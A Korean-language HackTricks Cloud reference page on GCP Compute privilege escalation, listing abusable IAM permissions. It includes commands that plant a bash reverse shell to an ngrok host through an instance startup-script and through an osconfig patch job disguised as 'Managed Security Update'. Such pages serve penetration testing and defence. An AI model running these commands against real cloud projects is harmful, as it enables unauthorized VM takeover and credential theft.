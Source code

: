 # GCP - Compute Privesc

{% hint style="success" %}
AWS 해킹 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.**
* **PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## Compute

GCP의 Compute 및 VPC(네트워크)에 대한 자세한 정보는 다음을 참조하세요:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격(예: 새로운 사용자 및 SSH 키 추가)을 수행하려면, 인스턴스에 연결된 SA에 대한 `actAs` 권한이 필요합니다. SA가 이미 연결되어 있어도 마찬가지입니다!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

이 권한을 사용하면 **인스턴스**의 **메타데이터** 정보를 **수정**하고 **사용자의 인증 키**를 변경하거나 **sudo 권한이 있는 새 사용자**를 **생성**할 수 있습니다. 따라서 SSH를 통해 모든 VM 인스턴스에 접속하고 인스턴스에서 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

* 기본적으로 VM 인스턴스에서 실행 중인 GCP 서비스 계정은 **매우 제한된 범위**를 가집니다.
* 로그인하려면 **SSH 서버에 접속할 수 있어야** 합니다.

이 권한을 악용하는 방법에 대한 자세한 내용은 다음을 참조하세요:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

이 공격은 새로운 startup-script를 추가하고 인스턴스를 재부팅하여 수행할 수도 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 **이전 권한과 동일한 권한**을 제공하지만, 전체 프로젝트 대신 특정 인스턴스에 적용됩니다. **이전 섹션과 동일한 익스플로잇과 제한 사항이 적용**됩니다.

### `compute.instances.setIamPolicy`

이 권한은 **이전 권한이 포함된 역할을 자신에게 부여**하고 이를 악용하여 권한을 상승시킬 수 있게 합니다.

### **`compute.instances.osLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`** 명령을 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **root 권한을 가지지 않습니다**.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면, VM에 연결된 SA에 대한 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### **`compute.instances.osAdminLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`** 명령을 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **root 권한을 가집니다**.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면, VM에 연결된 SA에 대한 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

서비스 계정이 할당된 가상 머신을 **생성하고 메타데이터에 접근하여 서비스 계정의 토큰을 탈취**하여 권한을 상승시킬 수 있습니다.

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이를 통해 환경 내에서 횡적으로 이동하고 프로젝트 내의 모든 컴퓨트 인스턴스에서 코드 실행 권한을 얻을 수 있습니다.

현재로서는 인스턴스에 연결된 SA에 대한 **`actAs` 권한이 필요하지 않습니다**.

수동으로 이를 익스플로잇하려면 [**패치 작업**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **또는** [**배포**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)를 생성해야 합니다.\
패치 작업을 실행하려면:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

패치 배포를 배포하려면:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) could been used in the past for exploiting this misconfiguration (but now it's not working).

**공격자는 이를 영구적으로 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

**추가 권한을 부여**하여 compute Image를 설정합니다.

### `compute.snapshots.setIamPolicy`

**추가 권한을 부여**하여 디스크 스냅샷을 설정합니다.

### `compute.disks.setIamPolicy`

**추가 권한을 부여**하여 디스크를 설정합니다.

### Access Scopes 우회

이 링크를 따라가면 [**Access Scopes를 우회할 수 있는 아이디어**](../)를 찾을 수 있습니다.

### GCP Compute 인스턴스에서 로컬 권한 상승

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 참고 자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking을 배우고 연습하세요:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking을 배우고 연습하세요: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
